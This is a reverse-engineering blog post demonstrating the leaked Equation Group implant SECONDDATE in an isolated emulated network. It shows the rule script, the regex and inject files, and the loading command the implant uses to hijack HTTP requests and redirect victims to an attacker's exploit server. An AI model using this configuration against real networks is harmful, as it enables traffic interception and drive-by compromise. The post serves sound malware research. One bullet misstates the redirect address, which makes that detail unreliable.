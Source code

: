```yaml
---
layout: post
title: SD in action
author: Wladimir J. van der Laan
tags: [eqgrp, malware]
categories: [Reverse-engineering]
---
```


Here I've taken the environment from the [BLATSTING Command-and-Control protocol]({{ site.baseurl
}}/2016/09/04/blatsting-command-and-control.html) article and extended it, so that the emulator works as a router
between an internal network with our victim and an external network, a mock version of the internet with just our
attacker and one web server:

<pre>
SimInternet, level 2

                      ╔════════════════════════════╗
                      ║ BLATSTING emulator         ║
╔════════════════╗    ║ ╔════════════════════════╗ ║    ╔════════════════╗  emulated
║ Victim host    ║    ║ ║  Emulated modules      ║ ║    ║ Attacker host  ║  serial
║                ║    ║ ║ ┌─────────┐ ┌────────┐ ║ ║    ║ ┌─────┐┌─────┐ ║  (control)
║ ┌─────────┐    ║    ║ ║ │ second  ◀┄▶ hash   │ ║ ║    ║ │httpd││SD LP│◀━━━━━━━━  
║ │ Browser │    ║    ║ ║ │ date    │ └────────┘ ║ ║    ║ └─────┘└─────┘ ║
║ └─────────┘    ║    ║ ║ │         │ ┌────────┐ ║ ║    ║      ↕         ║
║      ↕         ║    ║ ║ │         ◀┄▶ crypto │ ║ ║    ║ Linux nw. stck ║
║ Linux nw. stck ║    ║ ║ └─────────┘ └────────┘ ║ ║    ╚══════▲═════════╝
╚══════▲═════════╝    ║ ╚════▲════▲══════════════╝ ║           ┃   ╔══════════════════╗
       ┃              ║ ┌────▼──┐ ┆                ║           ┣━━━▶ Web server ACME  ║
       ┃              ║ │ [stub]│ ┆                ║ "outside" ┃   ║ Int. Widgits Ltd ║
       ┃     "inside" ║ │ core  │┌▼───────┐ Emu.nw.║ eth1      ┃   ╚══════════════════╝
       ┃         eth2 ║ └───────┘│ [stub] ◀┄┄┄┄┄┄┄┄▶◀━━━━━━━━━━┛
       ┗━━━━━━━━━━━━━▶◀┄┄┄┄┄┄┄┄┄┄▶ network│ Stck   ║  Eth-over-UDP 
                      ║          └────────┘        ║               
                      ╚════════════════════════════╝
</pre>

This will allow using SECONDDATE as it was intended to be used, to redirect website visitors (but only on the isolated
virtual network). The attacker runs a web server to redirect the victim to, which serves exploit payloads (a FOXACID
server, in Equation Group jargon).

<iframe src="http://showterm.io/252abdc707d56d893210a" width="640" height="420"></iframe>

[Showterm session](http://showterm.io/252abdc707d56d893210a) of the experiment described here.

### Setup: Attacker

We'll (as the attacker) set up the implant with this LP script:

```bash
disable 1
rule 1 --protocol 6 --dstport 80 --nocheckhttp --checkregex --inject --injectfile injectfile_tcp --regexfile regex_tcp
enable 1
```

{: .center}
*tcptest.seconddate: configuration script for setting up SECONDDATE.*

```bash
rule [rulenum] [opts ...]           Sets options for a rule.
                                      where opts is one or more of the following options
                                     (defaults are shown in parentheses):
                                     [--srcaddr addr(0)] [--srcmask mask(0)]
                                     [--dstaddr addr(0)] [--dstmask mask(0)]
                                     [--protocol prot(6/TCP)] [--srcport port(0)] [--dstport port(0)]
                                     [--mininterval(60)] [--maxinjections(5)] [--injectwindow(0)]
                                     [--checkhttp (default) | --nocheckhttp]
                                     [--checkregex (default) | --nocheckregex]
                                         [--inject (default) | --noinject
                                     [--tcpflag (FIN ACK PSH) URG | ACK | PSH | RST | SYN | FIN ]
                                     [--regexfile <filename>] [--injectfile <filename>
```

{: .center}
*SD rule definitions, from SecondDateLp `help`.*

The script does the following:

- `disable 1`: Disable any previous rule 1 (this allows for quick reloading, as live rules cannot be re-configured).
- `rule 1 ...`: Set up rule 1.
  - `--protocol 6`: Match IP protocol 6, [which happens to be
    TCP](https://en.wikipedia.org/wiki/List_of_IP_protocol_numbers). Only TCP or UDP allowed here.
  - `--dstport 80`: Destination port 80, HTTP.
  - `--nocheckhttp`: Don't use the built-in regexp for HTTP, that's no fun. Define our own.
  - `--checkregex`: Check for regex defined in `--regexfile` below.
  - `--inject`: Do packet injections.
  - `--injectfile injectfile_tcp`: Set data to inject on injection.
  - `--regexfile regex_tcp`: Set regexp to match.
- `enable 1`: Make rule 1 live.

It is possible to fine-tune various parameters such as the maximum number of injections, the time within which this has
to happen, the time between injections and so on and so on, but the defaults work fine for sake of this demo.

```bash
^GET / .*
```

{: .center}
*`regex_tcp`: The regular expression to match on TCP packets. This looks for HTTP GET requests to the root, any protocol.
This can be any valid [PCRE](https://www.debuggex.com/cheatsheet/regex/pcre) regular expression.*

```bash
HTTP/1.1 302 Found
Location: http://192.168.1.1/exploit.html

grazing buzzards
```

{: .center}
*`injectfile_tcp`: This will be injected into the TCP session. A basic HTTP temporary redirect to the evil web server.
`grazing buzzards` is just a 16-byte string that I use for finding the packet in captures.*

Then subsequently load it into the implant by invoking the LP command from the shell and piping in the script:

```bash
$ ./SecondDate-3.1.1.0.SecondDateLp 192.168.1.2 < tcptest.seconddate
```

{: .center}
*Loading the rules, from LP-side serial console.*

### Setup: Victim

The victim is simply using a PC running a browser and is trying to visit a website over HTTP. Luckily with [HSTS
preloading](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security) the latter is happening less and less in
practice. For the sake of being able to record the terminal session they are using the venerable browser `lynx`,
but this will work with any browser.

### The attack

The victim, from IPv4 address `192.168.2.1`, is trying to visit the legitimate web server of ACME Internet Widgits Ltd.
at `192.168.1.100`, through their router (Internet IP `192.168.1.2`). They will be redirected to the attacker's host,
`192.168.1.1`, which hosts an exploit page. To recap:

<pre>
                                                           ╔══════════╗
╔════════════════╗                                         ║ Attacker ║
║ Victim host    ║                                         ╚════▲═════╝
║                ║                  ╔═════════════╗             ┃ 192.168.1.1
║ ┌─────────┐    ║ 192.168.2.1      ║ Compromised ║             ┃  
║ │ Browser │    ◀━━━━━━━━━━━━━━━━━━▶ Router      ◀━━━━━━━━━━━━━┫
║ └─────────┘    ║      192.168.2.2 ╚═════════════╝ 192.168.1.2 ┃
║                ║                                              ┃ 192.168.1.100
║                ║                                 ╔════════════▼═════╗
╚════════════════╝                                 ║ Web server ACME  ║
                                                   ║ Int. Widgits Ltd ║
                                                   ╚══════════════════╝
</pre>

What happens:

- Victim opens `http://192.168.1.100/` in their browser, which opens a connection to the web server of
  ACME Int. Widgits Ltd.

{: .center}
![ACME Internet Widgits Ltd]({{ site.baseurl }}/assets{{ page.id }}/acme.png "ACME Internet Widgits Ltd")

*The website of ACME Internet Widgits Ltd., which has a world-wide monopoly on delivering Schrödinger's boxes by drone. Cat not included.*

- SD, running on the compromised router, triggers on the first content packet of this connection, eats it, and instead injects a packet to redirect
  to the attacker's server. It resets the connection to the original web server with a TCP RST packet.

- Victim is redirected to `http://192.168.1.100/exploit.html`, and will load whatever is on that page. 

{: .center}
![Lazy exploit]({{ site.baseurl }}/assets{{ page.id }}/exploit.png "Lazy exploit")

*The ultimate lazy exploit, just for illustration. Not only does the victim have to adjust their CPU's
instruction pointer manually, they'd have to first finish writing the shellcode. The Equation Group has better ones
available. The target link would in practice point to a browser exploit (usually aimed at a plugin such as Flash), or a
backdoored installer when intercepting a download.*

- Note that when the victim immediately loads the site again they won't get redirected again. The `mininterval` serves
  as a cool-down period.

Packet captures:

- [seconddate_int.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_int.cap) internal network
- [seconddate_ext.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_ext.cap) external network (includes [C&C]({{ site.baseurl }}/2016/09/17/seconddate-cnc.html)
  traffic)

